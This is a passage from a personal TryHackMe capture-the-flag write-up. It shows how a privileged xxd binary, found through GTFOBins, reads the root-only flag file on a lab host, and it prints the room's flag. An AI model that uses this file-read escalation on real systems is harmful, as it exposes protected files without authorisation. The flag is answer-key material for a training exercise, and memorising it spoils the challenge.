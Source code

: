 We search on [GTFObins](../../3%20-%20Tags/Hacking%20Tools/GTFObins.md) for xxd :

<img src="../../Flameshots/ba42b46764d6e1e7e7c75af1a8aebd45.png" alt="ba42b46764d6e1e7e7c75af1a8aebd45.png" width="502" height="88" class="jop-noMdConv">

So we can read the root flag easily (without becoming root) :

![f6b1c5cc8e2f15e7868b65cffaa92497.png](../../../2%20-%20Resources/Others/Flameshots/f6b1c5cc8e2f15e7868b65cffaa92497.png)

```
comte@ip-10-10-8-70:/opt$ ./xxd "/root/root.txt" | xxd -r
      _                           _       _ _  __
  ___| |__   ___  ___  ___  ___  (_)___  | (_)/ _| ___
 / __| '_ \ / _ \/ _ \/ __|/ _ \ | / __| | | | |_ / _ \
| (__| | | |  __/  __/\__ \  __/ | \__ \ | | |  _|  __/
 \___|_| |_|\___|\___||___/\___| |_|___/ |_|_|_|  \___|


THM{dca75486094810807faf4b7b0a929b11e5e0167c}

```

Pwned !!